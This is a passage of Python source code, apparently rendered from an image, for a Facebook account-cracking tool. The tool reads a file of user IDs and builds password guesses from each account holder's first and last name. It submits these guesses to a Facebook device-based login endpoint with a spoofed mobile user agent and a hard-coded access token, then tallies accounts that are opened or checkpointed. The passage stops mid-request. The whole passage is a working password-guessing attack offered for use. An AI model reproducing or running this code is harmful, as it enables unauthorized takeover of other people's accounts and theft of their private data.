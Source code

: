     option = input(f'{G1}[{A}?{G3}]{G3} CHOICE {A}:{G3} ')
    if option =='1':
        methods.append('methodA')
        main_crack().crack(id)
    elif option =='2':
        methods.append('methodB')
        main_crack().crack(id)
    elif option =='0':
        _file_()
    else:
      print(f'{G1}[{A}={G2}]{G2} VALID OPTION')
      time.sleep(2)
      _file_()

class main_crack():
    def __init__(self):
        self.id=[]
    def crack(self,id):
        global methods
        clear()
        print(f'{G1}[{A}={G1}]{G1} EXAMPLE {A}:{G1} /sdcard/EHC.txt');linex()
        self.file = input(f'{G1}[{A}?{G2}]{G2} FILE NAME {A}:{G2} ')
        try:
            self.id = open(self.file).read().splitlines()
            self.pasw()
        except FileNotFoundError:
            print(f'{G1}[{A}={G2}]{G2} OPPS FILE NOT FOUND ...')
            time.sleep(2)
            os.system('clear')
            print(logo)
            print(f'{G1}[{A}={G2}]{G2} TRY AGAIN ...')
            time.sleep(2)
            main_crack().crack(id)
#__________________[ FILE METHOD M1 ]__________________#           
    def methodA(self, sid, name, psw):
        try:
            global oks,cps,loop
            ua  = "[FBAN/FB4A;FBAV/"+str(random.randint(11,77))+'.0.0.'+str(random.randrange(9,49))+str(random.randint(11,77)) +";FBBV/"+str(random.randint(1111111,7777777))+";'[FBAN/FB4A;FBAV/59.0.0.15.313;FBBV/20097172;FBDM/{density=1.5,width=540,height=960};FBLC/en_US;FBCR/Airtel;FBMF/Samsung;FBBD/Samsung;FBPN/com.facebook.katana;FBDV/L-EMENT500;FBSV/4.4.2;nullFBCA/armeabi-v7a:armeabi;]"
            sys.stdout.write(f"\r{G1}[{A}EHC-M1{G1}]{A}-{G1}[{A}{loop}{G1}]{A}-{G1}[{A}OK{G1}/{A}CP{G1}]{A}-{G1}[{A}{len(oks)}{G1}/{A}{len(cps)}{G1}] ")
            sys.stdout.flush()
            fs = name.split(' ')[0]
            try:
                ls = name.split(' ')[1]
            except:
                ls = fs
            for pw in psw:
                ps = pw.replace('first',fs.lower()).replace('First',fs).replace('last',ls.lower()).replace('Last',ls).replace('Name',name).replace('name',name.lower())
                with requests.Session() as session:
                    data = {"adid": str(uuid.uuid4()),
                    "format": "json",
                    "device_id": str(uuid.uuid4()),
                    "cpl": "true",
                    "family_device_id": str(uuid.uuid4()),
                    "credentials_type": "device_based_login_password",
                    "error_detail_type": "button_with_disabled",
                    "source": "device_based_login",
                    "email": sid,
                    "password": ps,
                    "access_token": "350685531728%7C62f8ce9f74b12f84c123cc23437a4a32",